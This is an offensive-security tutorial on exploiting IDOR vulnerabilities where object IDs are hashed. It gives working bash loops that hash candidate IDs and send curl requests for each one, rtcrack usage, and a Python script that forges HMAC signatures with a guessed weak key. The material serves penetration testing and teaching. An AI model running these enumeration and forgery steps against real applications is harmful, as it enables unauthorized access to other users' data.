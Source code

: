 ```yaml
---
title: 'Hashed Parameter: Exploiting IDOR in Web Security'
description: Explore how attackers exploit hashes in URLs to bypass access controls
  and access sensitive objects using IDOR vulnerabilities.
keywords:
- hashed parameters
- IDOR vulnerabilities
- hash functions
- web security
- MD5
- SHA1
- SHA256
- access control
- security exploitation
---
```


# Hashed Parameter

## Context

This article explores the exploitation of Insecure Direct Object Reference (IDOR) vulnerabilities where object references in web applications are obfuscated using hash functions. Assumed knowledge includes an understanding of hash functions, object references, and basic web security principles, especially concerning IDOR vulnerabilities.

## Theory

### Hashed Parameters as Object References

In many web applications, object references such as user IDs or resources are obfuscated using hash functions before being included in URLs or API requests. A hashed parameter is essentially this obfuscated reference. While the intention is to conceal direct identifiers, hashing alone does not provide actual access control, making it possible to discover these values under certain conditions. If a hash is predictable or can be reversed, attackers can reconstruct valid references, leading to unauthorized access to sensitive objects.

### Predictability and Weaknesses in Hashing Schemes

Hash functions like MD5, SHA1, and even SHA256 are often used because they are fast, but they are susceptible to brute-force attacks or computationally intensive but feasible attacks using rainbow tables, especially when their input domain is small or predictable. When these hashes are used without proper salting or with weak or leaked keys, they become even more susceptible to attacks. Understanding these weaknesses is crucial for exploiting hashed parameters effectively.

### Attacker Workflow for Hashed Parameter IDOR

The workflow for an attacker exploiting hashed parameter vulnerabilities typically involves several steps:

- **Identify the hashed parameter** in the URL or request body.
- **Determine the hash algorithm** being used based on common characteristics, such as string length.
- **Generate candidate IDs**, and hash these candidates using the suspected function.
- **Substitute hashed values into requests** and observe responses for access permissions.

```mermaid
flowchart TD
    A[Identify hashed parameter] --> B[Determine hash algorithm]
    B --> C[Generate candidate IDs]
    C --> D[Hash candidates]
    D --> E[Send requests with hashed values]
    E --> F{Access granted?}
    F -- Yes --> G[IDOR confirmed]
    F -- No --> H[Repeat with new candidates]
```

## Practice

### Brute-Forcing Predictable Hashed Parameters (MD5/SHA1/SHA256)

- Identify the hashed parameter in a request URL or body. Look for parameters that appear as a sequence of hexadecimal characters (e.g., 32, 40, or 64 chars for MD5, SHA1, or SHA256, respectively).

- Determine likely hash algorithm based on its length and context. 

- Execute the following command to generate MD5 hashes for candidate IDs ranging from 1 to 1000:

    ```bash
    for id in $(seq 1 1000); do echo -n $id | md5sum | awk '{print $1}'; done > md5_candidates.txt
    ```

- Test each hashed value for unauthorized access with:

    ```bash
    while read hash; do curl -s 'https://target/app/resource?id='$hash; done < md5_candidates.txt
    ```

By following these steps, you can achieve access to objects by predicting hashed IDs and determining valid ones.

### Rainbow Table Attack on Hashed Parameters

- Obtain a rainbow table corresponding to the suspected hashing algorithm.

- Use the rtcrack command to attempt reversing a hash:

    ```bash
    rtcrack -h <hash_value> -t <rainbow_table_file>
    ```

- Test access with the recovered hash value:

    ```bash
    curl -s 'https://target/app/resource?id=<recovered_hash>'
    ```

This method effectively bypasses access controls set by weak hashes by leveraging precomputed hash-to-value mappings.

### HMAC Hashed Parameter Guessing

- Identify if HMAC is used in parameters such as `id=123&sig=<hmac>`. These signatures are used for signing object references.

- If possible, attempt to guess or brute-force weak HMAC keys:

    ```python
    import hmac, hashlib
    key = b'secret'
    for id in range(1,1000):
        sig = hmac.new(key, str(id).encode(), hashlib.sha1).hexdigest()
        print(f'https://target/app/resource?id={id}&sig={sig}')
    ```

- Validate access using the generated HMAC signatures with:

    ```bash
    curl -s 'https://target/app/resource?id=42&sig=<generated_sig>'
    ```

In this scenario, successfully forging valid HMAC signatures with weak keys provides unauthorized access to resources.

## Tools

- **curl**
- **rtcrack**
- **hashcat**
- **Burp Suite** 

These tools are integral for executing the techniques described, supporting tasks such as sending HTTP requests, cracking hashes, and testing web application security.